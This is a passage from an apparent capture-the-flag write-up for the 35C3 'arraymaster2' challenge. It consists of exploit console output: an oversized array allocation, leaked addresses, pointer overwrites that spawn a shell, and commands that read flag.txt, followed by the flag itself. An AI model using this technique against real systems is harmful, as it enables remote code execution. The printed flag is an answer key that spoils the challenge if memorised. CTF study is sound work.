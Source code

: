 ```console
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 35.207.132.47 on port 22229: Done
[*] Initializing array 'A' (Type: int64, Length: 2305843009213693952)
[*] Initializing array 'B' (Type: int64, Length: 1)
[*] Index #4 of array 'A' has value '1' (0x1)
[*] Index #5 of array 'A' has value '64' (0x40)
[*] Index #6 of array 'A' has value '94565656191856' (0x5601c8586370)
[*] Index #7 of array 'A' has value '94565652265608' (0x5601c81c7a88)
[*] Index #8 of array 'A' has value '94565652265671' (0x5601c81c7ac7)
[*] Setting index #6 of array 'A' to value '94565654368120' (0x5601c83c8f78)
[*] Index #0 of array 'B' has value '140440834664784' (0x7fbaee0fe950)
[*] Setting index #6 of array 'A' to value '140440838162664' (0x7fbaee4548e8)
[*] Setting index #0 of array 'B' to value '140440834368576' (0x7fbaee0b6440)
[*] Switching to interactive mode

Enter the command you want to execute.
[1] list
[2] init <ID> <type> <l>
[3] delete <ID>
[4] set <ID> <i> <value>
[5] get <ID> <i>
[6] quit

> sh: 1: quit: not found
$ ls
arraymaster2
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag.txt
35C3_b0dfdda5705de55960fdb114ca209773da135ef7
$ exit
[*] Got EOF while reading in interactive
$
$
$
[*] Closed connection to 35.207.132.47 port 22229
[*] Got EOF while sending in interactive
```

The flag: 35C3_b0dfdda5705de55960fdb114ca209773da135ef7